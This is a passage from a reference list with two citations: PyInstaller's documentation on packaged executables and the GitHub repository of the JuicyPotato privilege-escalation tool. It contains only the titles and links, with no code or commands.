\[6\] Deep understanding executable file created from pyInstaller: [<u>https://pyinstaller.org/en/v6.10.0/advanced-topics.html</u>](https://pyinstaller.org/en/v6.10.0/advanced-topics.html)

\[7\] JuicyPotato tool: [<u>https://github.com/ohpe/juicy-potato</u>](https://github.com/ohpe/juicy-potato)
